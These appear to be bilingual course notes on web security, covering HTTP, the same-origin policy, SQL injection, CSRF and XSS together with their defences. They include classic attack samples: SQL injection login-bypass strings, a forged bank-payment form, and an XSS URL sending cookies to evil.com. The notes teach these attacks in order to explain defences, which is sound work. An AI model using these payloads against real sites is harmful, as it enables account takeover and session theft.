










# Web Security

## Some Concepts

1. Web Service
      - A platform for deploying applications and sharing information, portably and securely, using HTTP/HTTPS
2. URL (Uniform Resource Locator)
      - Global identifiers of network-retrievable resources<br>
3. HTTP (HyperText Transfer Protocol)
      - A common data communication protocol on the web
      - HTTP Request
        - GET: request data from a specified resource
        - POST: send data to a server to create/update a resource

        !!! note "HTTP"
            

            - In HTTP, "Referer" is an optional HTTP header field that identifies the address of the web page, from which the resource has been requested. By checking the referrer, the server providing the new web page can see where the request originated.
            - In the most common situation, this means that when a user clicks a hyperlink in a web browser, causing the browser to send a request to the server holding the destination web page, the request may include the Referer field, which indicates the last page the user was on (the one where they clicked the link).

        - HTTP Response

- Webpage Languages:
    - HTML: HyperText Markup Language
        - A language to create structured docs
        - One can embed images, objects, or create interactive forms
    - CSS: Cascading Style Sheets
        - Style sheet language used for describing the presentation of a doc
    - JavaScript: A programming language that enables interactive web pages
        - Programming language used to manipulate  web pages. 
        - It is a high-level, untyped and  interpreted language with support for objects.
        - Supported by all web browsers
- Page Rendering <br>

??? info "DOM"
    DOM (Document Object Model) is a programming interface for HTML and XML documents. 它将文档表示为一个由节点和属性组成的对象树，可以通过 JavaScript 等脚本语言来访问和修改。DOM 提供了一些方法和属性来对文档中的元素进行选择、添加、删除或修改

- Frame (`<iframe src="URL"></iframe>`): Enable embedding a webpage within a webpage
    - Outer page can specify only sizing and placement of the frame in the outer page
    - Frame isolation: Outer page cannot change contents of inner page, inner page cannot change contents of outer page
    - Modularity: 
        - bring together content from multiple sources;
        - aggregate on client side
        - Delegation: frame can draw its own rectangle;

## Web Security Goals

- Integrity | 完整性
    - malicious web sites should not be able to tamper with integrity of my computer or my information on other web sites | 恶意网站不应能够修改计算机，或者其他网站上的信息
- Confidentiality | 机密性
    - malicious web sites should not be able to learn confidential information from my computer or other web sites | 恶意网站不应能够从我的计算机或其他网站上获取机密信息
- Privacy | 隐私
    - malicious web sites should not be able to spy on me or my activities online | 恶意网站不应能够窥探我的在线活动
- Availability | 可用性
    - attacker cannot make web sites unavailable

## Web Security: Server Side

- 可能遇到的问题：
    - Steal sensitive data | 窃取敏感信息
    - Change server data | 修改服务器数据
    - Gateway to enabling attacks on clients | 为对客户端的攻击打开大门
    - Impersonation (of users to servers, or vice versa) | 冒充用户或服务器
    - Injection Attack | 注入攻击
        - Attacker user provides malicious inputs
        - Web server does not check input format
        - Enables attacker to execute arbitrary code on the server

!!! note "Structure of Web Service"
    

???+ note "Database"
    - Structured collection of data often storing tuples/rows of related values; organized in tables;
    - Widely used by web services to store server and user information
    - Database runs as separate process to which web server connects:
        - web server sends queries or commands derived from incoming HTTP requests; 
        - database server returns associated values or modifies/updates values;

???+ note "SQL"
    - Widely used database query language
    - Fetch a set of rows
        - `SELECT column FROM table WHERE condition`
        - returns the value(s) of the given column in the specified table, for all records where condition is true.

    Example: 对于表
    
    

    === "Query"
        - `SELECT Balance FROM Customer WHERE Username = 'Jane'`
        - Returns `79.2`
    === "Add/modify data"
        - `INSERT INTO Customer VALUES (8477, 'oski', 10.00)`
        - table will be updated with new row `8477 | oski | 10.00`

    === "Delete entire table"
        `DROP TABLE Customer`
    === "Issue multiple commands, separated by semicolon: "
        - `INSERT INTO Customer VALUES (4433, 'vladimir',  70.0); SELECT AcctNum FROM Customer WHERE Username='vladimir'`
        - Adds a new row to the table and returns the value of `4433`
    === "Comment"
        1. `#` Comment to end of line
        2. `--` Comment to end of line
        3. `/* ... */` Comment block

### SQL Injection

- **Exploit malicious login inputs**

=== "Example 1"
    令 user = "`' or 1=1 -- `"， 脚本会被解释为：

    - `ok = execute( SELECT * FROM Users WHERE user= ' ' or 1=1 -- ... )`
    - "--" 会注释掉后面的所有内容，故 `ok` 会恒等于 `True`，登录成功
=== "Example 2"
    令 user = "`'; INSERT INTO TABLE Users ('attacker', 'attacker secret'); --`", 脚本会被解释为：

    - `ok = execute(SELECT * FROM Users WHERE user= ' '; INSERT INTO TABLE Users ('attacker', 'attacker secret'); --...)`
    - 会创建一个我们指定的账户

下面是一些 Solution:

#### Solution: Input Sanitization

Sanitize user input (清除用户输入): check or enforce that value/string does not have commands of any sort (检查或者通过操作使得用户输入的字符串不存在任何指令)

- Disallow special characters | 拒绝特殊的字符; or
- Escape input string | 转义输入字符串

???+ note "Input Escaping"
    - the input string should be interpreted as a string and not as a special char;
    - to escape the SQL parser, use backslash `\` in front of special characters, such as quotes or backslashes
    - Different SQL parsers have different escape sequences or API for escaping
    - For `'`, parser considers a string is starting or ending
    - For `\'`, parser considers it as a character part of a string and converts it to `'`
    
    ??? example "Escaping examples:"
        ```sql
        [...] WHERE Username='alice';
        alice
        [...] WHERE Username='alice\';
        alice', syntax error, quote not closed
        [...] WHERE Username='alice\";
        alice'
        [...] WHERE Username='alice\\';
        alice\
        ```

#### Solution: Prepared Statement

> - Fundamental cause of SQL injection: **mixing data and code**
> - Fundamental solution: **separate data and code**

- It is an optimized feature that provides improved performance if **the same or similar SQL statement** needs to be executed repeatedly.
- Using prepared statements, we send an SQL statement template to the database, with certain values called parameters left unspecified. 
- The database parses, compiles and performs query optimization on the SQL statement template and stores the result without executing it. 
- We later bind data to the prepared statement.

> 发送语句模版，等后续用户进行参数绑定再计算，从而优化了一些常用或类似 SQL 语句的执行

> - **Trusted code** is sent via a **code channel**
> - **Untrusted user-provided data** are sent via **data channel**

- Database clearly knows the boundary between code and data
- <u>Data received from the data channel is not parsed</u>
- <u>Attacker can hide code in data, but the code will never be treated as code, so it will never be attacked</u>

> 数据库非常明确地了解代码和数据之间的界限，通过后面的绑定传入的参数并不会被解析



## Web Security: Client Side

### Same-Origin Policy

- Prevent a malicious site from spying on or tampering with user information or interactions with other websites | 防止恶意网站监视/篡改用户信息或与其他网站的交互
- Enforeced by browsers | 浏览器强制执行

- **Policy 1**: Each site in the browser is isolated from all others | 浏览器中不同站点相互隔离
- **Policy 2**: Multiple pages from the same site are not isolated | 同一站点的不同页面不隔离

Origin = Protocol + Hostname + Port

??? example
    对于 `http://coolsite.com:81/tools/info.html `

    - Protocol: `http`
    - Hostname: `coolsite.com`
    - Port: `81`

- String matching: <u>same origins should match</u>
- <u>One origin should not be able to access the resources of another origin</u>

Examples:

| Originating Document | Accessed Document | Yes/No |
| :------------------: | :---------------: | :----: |
| `http://wikipedia.org/a/` | `http://wikipedia.org/b/` | Yes |
| `http://wikipedia.org/` | `http://www.wikipedia.org/` | No |
| `http://wikipedia.org/` | `https://wikipedia.org/` | No |
| `http://wikipedia.org:81/` | `http://wikipedia.org:82/` | No |
| `http://wikipedia.org:81/` | `http://wikipedia.org/` | No |

### Cross-Site Attack

包括：

- CSRF (Cross-Site Request Forgery)
- XSS (Cross-Site Scripting)

一些前置知识：

#### Prerequisite: Cookies

- For the first time when a browser connects to a web server, the server includes in the response a **Set-Cookie**: header
- Each cookie is just a name-value pair

> 如果现在有能对应的 cookie 就带上；如果没有的话服务器会返回一个 **Set-Cookie:** 



#### Prerequisite: Session Token

> An HTTP session is a sequence of network request-response transactions. 



A session token is a **unique identifier** that is generated and sent from a server to a client to <u>identify the current interaction session.</u>

- Server assigns a session token to each user after they logged in, places it in the cookie
- The server keeps a table of username to current session token, so when it sees the session token it knows which user

#### CSRF

!!! abstract
    - 利用 Web 服务器在连接会话中用于识别用户的 Cookie​
    - 第三方网站可以伪造与同一站点请求完全相同的请求​
    - 服务器无法区分同一站点和跨站点请求

    ??? example 
        

        - 攻击者利用用户已登录的身份，在用户不知情的情况下发送恶意请求给目标网站，从而欺骗网站执行某些操作，例如修改用户的账户信息、发送垃圾邮件或执行恶意代码等。​
        - 攻击者通常会通过欺骗用户点击恶意链接或访问恶意网站，从而在用户的浏览器中植入恶意代码或链接。当用户访问受害网站时，恶意代码或链接会自动向目标网站发送请求，触发 CSRF 攻击。

用户访问 `bank.com`, 它的 session cookie 会被保存在浏览器中，当用户访问包含以下内容的恶意网站时：

```html
<form name=F action=http://bank.com/BillPay.php>
<input name=receipient value=attacker>...
<script> document.F.submit() </script>
```

浏览器会发送带有用户的 auth cookie 的 request 请求，从而完成了伪造的交易


#### CSRF Defenses

<u>1) Referer Validation</u>

The `Referer` field in the HTTP header indicates which URL initiated the request



如此假设对于 `bank.com` 的交易请求，`Referer` 不是 `bank.com` 的话就拒绝

<u>2) CSRF Token</u>

> To defeat CSRF Attack, 应用程序需要一种方法来确定 HTTP 请求是否是通过应用程序的用户界面合法生成的, 最佳方法是使用 CSRF Token

CSRF Token 是：

- a **unique, secret, unpredictable** value generated by the server-side app and transmitted to the client;
- included in a subsequent HTTP request made by the client;
- the server-side application validates that the request includes the **expected token** and rejects the request if the token is missing or invalid.

> - The CSRF tokens must be a part of the HTML form, **not stored in session cookies.**
> - The easiest way to add a non-predictable parameter is to use a secure hash function (e.g., SHA-2) to hash the user’s session ID. 
> - To ensure randomness, the tokens must be generated by a cryptographically secure random number generator.

#### XSS Attack

- Attacker injects a malicious script into the webpage viewed by a victim user;
- Script runs in user's browser with access to page‘s data.

> Cross-Site Scripting (XSS) attacks are a type of **injection**, in which malicious scripts are injected into otherwise benign[^1] and trusted websites.

核心仍然是之前的 Same-Origin Policy

**1) Stored XSS**

attacker leaves JavasScript lying around on benign web service for victim to load (脚本会持久地存储在服务器的数据库中)

[^1]: 良性，无害的

- The attacker manages to store a malicious script at the web server, e.g., at `bank.com`
- The server later unwittingly sends script to a victim’s browser
- Browser runs script in the same origin as the `bank.com` server

??? example
    

**2) Reflected XSS**

attacker gets user to **click on specially-crafted URL with script in it**, web service reflects script back

> 攻击者把脚本通过 URL 的方式发给服务器（可以发给 victim 让他访问这个 URL），而服务器如果试图不加处理地显示输入（例如搜索结果等），就会使得访问者运行相应的脚本

??? example
    === "大体流程"
        
    === "具体例子"
        - Example malicious URL: 

        ```http
        http://bank.com/search.php?term=
            <script>window.open(
                'http://evil.com/?cookie= " + 
                document.cookie) </script>
        ```

        - If user clicks this link: browser goes to `bank.com/search.php?...`, and `bank.com` returns:
        
        ```html
        <HTML> Results for <script>...</Script>

        - browser executes script in same origin as `bank.com`
        - browser sends to `evil.com` the cookie for `bank.com`

#### XSS Defenses

**1) Input Validation**

check that inputs are of expected form

> whitelisting instead of blacklisting;

**2) Output Escaping**

escape dynamic data before inserting it into HTML

??? example
    === "理论"
        - HTML parser looks for special characters: `< > & " '`
        - Ideally, user-provided input string should not contain special chars
        - Escape parser:
        
        | Character | Escape Sequence |
        | :-------: | :-------------: |
        | `<` | `&lt;` |
        | `>` | `&gt;` |
        | `&` | `&amp;` |
        | `"` | `&quot;` |
        | `'` | `&#39;` |
    === "具体例子"
        

**3) CSP: Content Security Policy**

Content-Security-Policy HTTP header allows the response to specify white-list, instructs the browser to only execute or render resources from those sources | 允许 response 指定白名单，指示浏览器仅执行或呈现来自这些来源的资源

例如：

```http
Content-Security-Policy: script-src 'self' http://b.com; object-src 'none'; style-src cdn.example.org third-party.org; child-src https; img-src *
```

- Allow scripts only from the server or from `http://b.com`, but not from anywhere else
- `<object>` 标签：不允许任何来源
- 样式表：只允许从 `cdn.example.org` 和 `third-party.org` 加载
- frame：只允许使用 `https` 加载
- Allow images to be loaded from anywhere


